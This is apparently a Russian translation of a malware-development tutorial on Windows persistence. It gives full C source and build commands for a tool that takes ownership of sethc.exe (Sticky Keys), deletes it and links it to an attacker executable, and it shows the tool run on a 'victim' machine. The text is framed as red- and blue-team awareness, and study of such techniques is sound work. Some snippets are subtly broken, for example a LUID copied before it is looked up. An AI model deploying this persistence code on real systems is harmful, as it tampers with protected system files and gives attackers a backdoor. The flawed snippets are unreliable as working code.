





\newpage
\subsection{91. разработка вредоносного ПО: закрепление (persistence) - часть 25. Создание символической ссылки с легитимного файла на вредоносный. Простой пример на C.}

﷽

{width="80%"}    

В одном из предыдущих [постов](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html) я писал о популярных методах закрепления через функции специальных возможностей. APT-группы, такие как APT3, APT29 и APT41, использовали этот метод для атак на ПК.    

В этом посте я просто покажу тот же трюк, но с другой логикой: создание символической ссылки с легитимного приложения на вредоносное.     

### создание символической ссылки. специальные возможности

Известный метод, используемый злоумышленниками для достижения закрепления в системе Windows, - это создание символических ссылок (symlink), которые заменяют или перенаправляют функции специальных возможностей Windows. Этот метод сложнее, чем просто замена бинарных файлов, поскольку он включает в себя создание символической ссылки с легитимного системного файла или функции на вредоносный файл. Когда система или пользователь пытаются получить доступ к оригинальному файлу или функции, они непреднамеренно перенаправляются на вредоносный файл.    

### практический пример

Логика кажется довольно простой, что-то вроде этого:    

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  // create the symbolic link
  if (!CreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }
  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

но на самом деле все немного сложнее.   

Допустим, у нас есть "вредоносная программа":

```cpp
/*
* hack.c
* "malware" for symlink
* persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

И я хочу создать символическую ссылку, целевое легитимное приложение:

```powershell
const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
```

Прежде всего, нам нужны разрешения:

```cpp
SE_TAKE_OWNERSHIP_NAME
SE_DEBUG_NAME
SE_RESTORE_NAME
SE_BACKUP_NAME
```

Для этого просто используем функцию `setPrivilege`:

```cpp
// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), 
  TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", priv);
  return res;
}
```

Как вы можете видеть, эта функция используется для включения указанной привилегии для текущего процесса.

Затем открывает легитимный двоичный файл с требуемыми правами доступа (`WRITE_OWNER` и `WRITE_DAC`):

```cpp
HANDLE hFile = CreateFileA((LPCSTR)legitApp, WRITE_OWNER | WRITE_DAC, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

Затем получаем информацию о токене:

```cpp
// obtain the SID for the current user
HANDLE hToken;
DWORD dwSize = 0;
PTOKEN_USER pTokenUser = NULL;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
  printf("Failed to open process token: %d\n", GetLastError());
  CloseHandle(hFile);
  return 1;
}
printf("open process token: ok\n");

// get the required size for the token information
GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
pTokenUser = (PTOKEN_USER)malloc(dwSize);
if (pTokenUser == NULL) {
  printf("failed to allocate memory for token information\n");
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("allocate memory token info: ok\n");

// get the token information
if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
  printf("failed to get token information: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("get token info: ok\n");
```

На следующем шаге нам необходимо изменить владельца законного двоичного файла на текущего пользователя:    

```cpp
// initialize a security descriptor
SECURITY_DESCRIPTOR sd;
if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
  printf("failed to initialize security descriptor: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("init security descriptor: ok\n");

// set the owner in the security descriptor
if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
  printf("failed to set security descriptor owner: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting security descriptor owner: ok\n");

// apply the security descriptor to the file
if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
  printf("error setting file ownership: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting file ownership: ok\n");
```

`InitializeSecurityDescriptor` - инициализирует новый дескриптор безопасности.   
`SetSecurityDescriptorOwner` - устанавливает владельца в дескрипторе безопасности на `SID` текущего пользователя.   
`SetFileSecurityA` - применяет дескриптор безопасности к законному двоичному файлу для смены его владельца.   

Затем применяет новый ACL к файлу:

```cpp
// set full control for the current user
EXPLICIT_ACCESS ea;
PACL pNewAcl = NULL;

ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
ea.grfAccessPermissions = GENERIC_ALL;
ea.grfAccessMode = SET_ACCESS;
ea.grfInheritance = NO_INHERITANCE;
ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
  printf("error setting new ACL: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  return 1;
}
printf("setting new ACL: ok\n");

if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, 
NULL, NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
  printf("error setting security info: %d\n", GetLastError());
  free(pTokenUser);
  CloseHandle(hToken);
  CloseHandle(hFile);
  LocalFree(pNewAcl);
  return 1;
}
printf("setting security info: ok\n");

free(pTokenUser);
CloseHandle(hToken);
LocalFree(pNewAcl);
```

Наконец, удаляем исходный файл и установим символическую ссылку:     

```cpp
// delete the original file (requires administrative privileges)
if (!DeleteFileA((LPCSTR)legitApp)) {
  printf("error deleting original file: %d\n", GetLastError());
  return 1;
}
printf("original file deleted successfully\n");
CloseHandle(hFile);

HMODULE kernel = GetModuleHandle("kernel32.dll");
pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

// create the symbolic link
if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
  printf("error creating symlink: %d\n", GetLastError());
  return 1;
}

printf("symlink to meow created successfully =^..^=\n");
return 0;
```

Как видите, это сложнее: этот PoC демонстрирует, как устанавливать привилегии, изменять владельца файла, устанавливать списки управления доступом, удалять файл и создавать символическую ссылку с помощью Windows API.

Если вы попытаетесь немедленно удалить исходный файл из папки `system32`, вы получите ошибку: доступ запрещен.

Кроме того, если получение SID для текущего пользователя и его установка неверны, вы получите ошибку типа `1337` недопустимый владелец или что-то подобное.

Окончательный исходный код выглядит так `pers.c`:

```cpp
/*
* pers.c
* symlink persistence trick
* author: @cocomelonc
* https://cocomelonc.github.io/malware/2024/07/08/malware-pers-25.html
*/
#include <windows.h>
#include <stdio.h>
#include <aclapi.h> // for OWNER_SECURITY_INFORMATION
#include <sddl.h> // for ConvertStringSidToSid ???

BOOLEAN (WINAPI * pCreateSymbolicLinkA)(
  LPCSTR lpSymlinkFileName,
  LPCSTR lpTargetFileName,
  DWORD  dwFlags
);

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) 
  res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), 
  (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : 
  "failed to enable %s :(\n", 
  priv);
  return res;
}

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  if (!setPrivilege(SE_TAKE_OWNERSHIP_NAME)) return -1;
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!setPrivilege(SE_RESTORE_NAME)) return -1;
  if (!setPrivilege(SE_BACKUP_NAME)) return -1;

  HANDLE hFile = CreateFileA((LPCSTR)legitApp, GENERIC_WRITE, 
  FILE_SHARE_READ, NULL, OPEN_EXISTING, 
  FILE_ATTRIBUTE_NORMAL, NULL);

  // obtain the SID for the current user
  HANDLE hToken;
  DWORD dwSize = 0;
  PTOKEN_USER pTokenUser = NULL;
  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
    printf("Failed to open process token: %d\n", GetLastError());
    CloseHandle(hFile);
    return 1;
  }
  printf("open process token: ok\n");

  // get the required size for the token information
  GetTokenInformation(hToken, TokenUser, NULL, 0, &dwSize);
  pTokenUser = (PTOKEN_USER)malloc(dwSize);
  if (pTokenUser == NULL) {
    printf("failed to allocate memory for token information\n");
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("allocate memory token info: ok\n");

  // get the token information
  if (!GetTokenInformation(hToken, TokenUser, pTokenUser, dwSize, &dwSize)) {
    printf("failed to get token information: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("get token info: ok\n");

  // initialize a security descriptor
  SECURITY_DESCRIPTOR sd;
  if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION)) {
    printf("failed to initialize security descriptor: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("init security descriptor: ok\n");

  // set the owner in the security descriptor
  if (!SetSecurityDescriptorOwner(&sd, pTokenUser->User.Sid, FALSE)) {
    printf("failed to set security descriptor owner: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting security descriptor owner: ok\n");

  // apply the security descriptor to the file
  if (!SetFileSecurityA(legitApp, OWNER_SECURITY_INFORMATION, &sd)) {
    printf("error setting file ownership: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting file ownership: ok\n");

  // set full control for the current user
  EXPLICIT_ACCESS ea;
  PACL pNewAcl = NULL;

  ZeroMemory(&ea, sizeof(EXPLICIT_ACCESS));
  ea.grfAccessPermissions = GENERIC_ALL;
  ea.grfAccessMode = SET_ACCESS;
  ea.grfInheritance = NO_INHERITANCE;
  ea.Trustee.TrusteeForm = TRUSTEE_IS_SID;
  ea.Trustee.TrusteeType = TRUSTEE_IS_USER;
  ea.Trustee.ptstrName = (LPSTR)pTokenUser->User.Sid;

  if (SetEntriesInAcl(1, &ea, NULL, &pNewAcl) != ERROR_SUCCESS) {
    printf("error setting new ACL: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    return 1;
  }
  printf("setting new ACL: ok\n");

  if (SetSecurityInfo(hFile, SE_FILE_OBJECT, DACL_SECURITY_INFORMATION, NULL, 
  NULL, pNewAcl, NULL) != ERROR_SUCCESS) {
    printf("error setting security info: %d\n", GetLastError());
    free(pTokenUser);
    CloseHandle(hToken);
    CloseHandle(hFile);
    LocalFree(pNewAcl);
    return 1;
  }
  printf("setting security info: ok\n");

  free(pTokenUser);
  CloseHandle(hToken);
  LocalFree(pNewAcl);

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
  printf("original file deleted successfully\n");
  CloseHandle(hFile);

  HMODULE kernel = GetModuleHandle("kernel32.dll");
  pCreateSymbolicLinkA = (BOOLEAN(WINAPI *)(LPCSTR, LPCSTR, DWORD))
  GetProcAddress(kernel, (LPCSTR)"CreateSymbolicLinkA");

  // create the symbolic link
  if (!pCreateSymbolicLinkA((LPCSTR)legitApp, (LPCSTR)meowApp, 0)) {
    printf("error creating symlink: %d\n", GetLastError());
    return 1;
  }

  printf("symlink to meow created successfully =^..^=\n");
  return 0;
}
```

Обратите внимание, что этот PoC включает необходимые заголовки для функций Windows API, работы с безопасностью файлов и манипуляции с идентификаторами SID (Security Identifier). Также используется указатель на функцию `CreateSymbolicLinkA`, которая создаёт символические ссылки (мой `mingw` не хотел компилировать без ошибок без этого).    

### демонстрация

Давайте проверим, как все работает.        

Компилируем наше `meow-meow` "вредоносное" ПО `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}      

И компилируем скрипт персистентности:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}      

Затем запускаем его на тестовой машине жертвы (Windows 11 x64):    

```powershell
.\pers.exe
```

{width="80%"}      

Как видно, символическая ссылка успешно создана.    

Наконец, нажимаем клавишу Shift 5 раз:     

{width="80%"}      

Обратите внимание на свойства `hack.exe`:     

{width="80%"}      

Как видно, все сработало, как ожидалось. Идеально! =^..^=     

Этот PoC показывает, как злоумышленник может создать символическую ссылку для перенаправления функции специальных возможностей Windows на вредоносный исполняемый файл.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[CreateSymbolicLinkA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createsymboliclinka)     
[Malware persistence - part 12. Accessibility features](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html)     
[Github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2024-07-08-malware-pers-25)    
